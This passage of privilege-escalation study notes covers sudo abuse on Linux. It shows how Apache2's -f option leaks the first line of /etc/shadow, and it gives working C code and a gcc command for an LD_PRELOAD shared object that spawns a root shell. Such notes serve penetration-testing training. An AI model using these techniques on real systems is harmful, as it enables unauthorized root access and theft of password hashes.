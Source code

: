         [Linux Kernel CVEs | Linux Kernel Vulnerability Tracker](https://www.linuxkernelcves.com/cves)

        ***

    ***

## Sudo

***

#### **Leverage application functions**

Some applications will not have a known exploit within this context.: Apache2 server

use a "hack" to leak information leveraging a function of the application.

Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

\![https://i.imgur.com/rNpbbL8.png](https://i.imgur.com/rNpbbL8.png)

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

#### **Leverage LD\_PRELOAD**

LD\_PRELOAD is a function that allows any program to use shared libraries.

[Dynamic linker tricks: Using LD\_PRELOAD to cheat, inject features and investigate programs](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld\_preload-to-cheat-inject-features-and-investigate-programs/)

If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:

```cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```cpp
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
